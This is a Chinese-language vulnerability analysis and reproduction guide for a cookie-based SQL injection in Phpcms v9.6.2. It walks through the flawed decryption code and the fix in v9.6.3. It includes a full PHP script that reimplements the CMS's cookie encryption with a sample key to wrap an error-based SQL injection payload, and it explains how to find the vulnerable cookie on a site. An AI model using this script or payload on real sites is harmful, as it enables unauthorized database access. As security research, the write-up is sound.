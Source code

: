 # Phpcms v9.6.2 前台sql注入

### 一、漏洞简介

### 二、漏洞影响

Phpcms v9.6.2

### 三、复现过程

**漏洞分析**

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的 key 值，我们可以用这个 key 加密我们的 SQL注入payload 。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲 v9.6.2 版本的注入只能在 windows 上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 phpcms/modules/member/classes/foreground.class.php ，代码如下图。我们可以明显看到下图第33行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据 $phpcms_auth 和解密秘钥 $auth_key 均可构造。

![](images/15893340192437.png)


我们先来看一下待解密数据 $phpcms_auth 如何构造。从下图中，可以看出程序将从 cookie 中的 xxx_auth 字段经过 sys_auth 函数解密后，返回给了 $phpcms_auth ，而默认情况下使用 pc_base::load_config('system', 'auth_key') 作为加解密的 key 值。

![](images/15893340280425.png)


而 pc_base::load_config('system', 'auth_key') 的值在网站搭建好后，会存储在 caches/configs/system.php 中，我们可以通过任意文件读取来获得这个值。

![](images/15893340346962.png)


现在 $phpcms_auth 已经搞定了，我们再来看看 $auth_key = get_auth_key('login') 如何构造，跟进 get_auth_key 的代码。我们可以看到 $auth_key 由 $prefix、pc_base::load_config('system','auth_key')、ip() 三个元素决定。前两个都是已知的，而第三个获取用户IP的函数存在IP伪造的问题，也可以是固定的。

![](images/15893340413901.png)


所以 get_auth_key('login') 的值也是我们可以构造的，剩下的事情只要我们将 payload 传给加密函数加密两次即可。我们最后再来看一下 PHPCMS v9.6.3 中是如何修复这个漏洞的，补丁如下：

![](images/15893340488342.png)


可以明显看到，补丁将解密后获得的 $userid 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get_cookie(‘auth’) 得到$phpcms_auth，get_auth_key(‘login’)得到$auth_key，然后sys_auth($phpcms_auth, ‘DECODE’, $auth_key)。

再通俗些的话：sys_auth方法对cookie中包含auth的参数名对应的密文值，先使用配置文件中的auth_key进行sys_auth得到的值作为第一次解密后的值，然后使用配置文件中的auth_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，第一次解密后的值与新的key最后传入sys_auth进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的auth_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，使用新的key与明文进行sys_auth得到的值作为第一次加密的密文，然后使用配置文件中的auth_key作为key与第一次加密的密文传入sys_auth得到的值作为最终的密文，也就是cookie字段名称中包含auth的参数对应的值。

如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行payload的加解密操作：


```php
<?php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
    $ckey_length = 4;
    $key = md5($key != '' ? $key : $auth_key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    $string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255);

    $rndkey = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {

            return '';
        }
    } else {
        return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
    }
}

function get_auth_key($prefix,$suffix="",$ip='127.0.0.1',$auth_key='7G6idVtMAxhgFVu5vGp1') {
    if($prefix=='login'){
        $pc_auth_key = md5($auth_key.$ip);
    }else if($prefix=='email'){
        $pc_auth_key = md5($auth_key);
    }else{
        $pc_auth_key = md5($auth_key.$suffix);
    }
    $authkey = md5($prefix.$pc_auth_key);
    return $authkey;
}

//解密过程
//step 1
$encryption_str = '6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4';
$operation1 = 'DECODE';
$decryption_step1 = (sys_auth($encryption_str, $operation1));
echo 'decryption_step1 result:'.$decryption_step1."\n";

//step 2
$decryption_step2 = $decryption_step1;
$auth_key = get_auth_key('login');
echo 'decryption_step2 result:'.sys_auth($decryption_step2, 'DECODE', $auth_key)."\n";

echo '-----------------------'."\n" ;


//加密过程
//step 1
$clear_str = "1'or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336";
$operation2 = 'ENCODE';
$encryption_step1 = sys_auth($clear_str, 'ENCODE', $auth_key);
echo 'encryption_step1 result:'.$encryption_step1."\n";

//step 2
$encryption_step2 = (sys_auth($encryption_step1, $operation2));
echo 'encryption_step2 result:'.$encryption_step2;
```

使用上面的代码可以进行解密和加密，下图中decryption_step2 result的值便是对payload进行解密的最终结果，encryption_step2的值是对payload进行加密的最终结果。

![](images/15893340784835.png)


最终利用的现象，cookie中的YDVIB_auth参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的cookie中字段名称中xxx_auth的参数名称，便是存在漏洞的位置。

![](images/15893340861208.png)


**参考链接**

https://www.freebuf.com/column/158352.html

https://xz.aliyun.com/t/5731